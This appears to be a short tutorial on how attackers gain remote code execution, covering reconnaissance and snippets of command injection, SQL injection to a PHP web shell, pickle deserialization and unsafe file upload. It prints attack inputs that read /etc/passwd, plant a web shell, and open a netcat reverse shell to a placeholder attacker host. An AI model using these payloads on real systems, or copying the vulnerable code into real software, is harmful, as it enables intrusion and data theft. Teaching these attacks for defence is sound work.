 ![How Hackers Exploit RCE](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4ibjxaimf1cer7y57bgm.png align="left")

### **1\. Reconnaissance**

* Tools: Nmap, Shodan
    
* Targets: Service versions, open ports, directory structure
    

### **2\. Exploitation Techniques**

* **Command Injection (PHP)**:
    
    ```php
    <?php $cmd = $_GET['cmd']; system($cmd); ?>
    // Exploited with: ?cmd=whoami
    ```
    
* **Command Injection (Node.js)**:
    
    ```js
    const { exec } = require('child_process');
    exec(`ls -l ${userInput}`, ...);
    // ?input=; cat /etc/passwd
    ```
    
* **SQL Injection Leading to RCE**:
    
    ```php
    <?php
    $query = "SELECT * FROM users WHERE username = '". $_GET['username']. "'";
    // Payload: ' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE ...
    ?>
    ```
    
* **Insecure Deserialization (Python + Pickle)**:
    
    ```python
    import pickle
    user = pickle.loads(base64.b64decode(request.form['payload']))
    ```
    
* **File Upload**:
    
    ```php
    <?php move_uploaded_file($_FILES['file']['tmp_name'], "uploads/". $_FILES['file']['name']); ?>
    // Upload: shell.php with system($_GET['cmd'])
    ```
    

### **3\. Payload Delivery**

* Reverse Shell Example (Linux):
    
    ```bash
    nc <attacker_ip> <port> -e /bin/bash
    ```
    